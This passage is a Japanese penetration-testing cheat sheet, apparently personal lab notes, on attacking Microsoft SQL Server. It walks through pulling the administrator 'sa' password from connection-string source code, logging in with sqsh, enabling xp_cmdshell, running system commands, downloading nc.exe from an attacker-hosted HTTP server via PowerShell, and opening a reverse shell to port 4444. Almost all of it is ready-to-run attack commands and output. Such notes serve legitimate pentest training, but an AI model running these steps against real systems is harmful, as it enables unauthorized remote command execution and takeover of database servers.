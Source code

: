 ### SQLServer

+ DB接続ソースなどから認証情報を取得できる場合がある

  ```
  set cnn = server.createobject("ADODB.Connection")
  cnn.open "PROVIDER=SQLOLEDB;DATA SOURCE=RALPH;User ID=sa;PWD=poiuytrewq;DATABASE=bankdb"
  ```

  ※saが管理者ユーザであることが多い

+ SQLserverへのログイン

  ```bash
  sqsh -S 10.11.1.31 -U sa -P poiuytrewq
  ```

  ```bash
  # db一覧
  select name from sys.databases;
  # 実行
  go
  use master;
  go
  # テーブル一覧
  select name from sysobjects where xtype = 'U'
  go
  
  # xp_cmdshellの有効化
  EXEC sp_configure 'show advanced options', 1
  RECONFIGURE
  go
  Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
  (return status = 0)
  1> EXEC sp_configure 'xp_cmdshell', 1
  2> RECONFIGURE
  3> go
  Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
  (return status = 0)
  EXEC xp_cmdshell 'net user'
  ```

  https://qiita.com/yakumomo/items/e12d91beb7d7784ab1fa

  https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

+ nc.exeを配送してリバースシェルを取得

  ```bash
  python -m http.server 80 -d /usr/share/windows-resources/binaries/
  ```

  ```
  EXEC xp_cmdshell "powershell.exe wget http://192.168.119.156/nc.exe -OutFile C:\Users\Public\nc.exe"
  go
  EXEC xp_cmdshell  "C:\Users\Public\nc.exe -e cmd.exe 192.168.119.156 4444"
  go
  ```

  

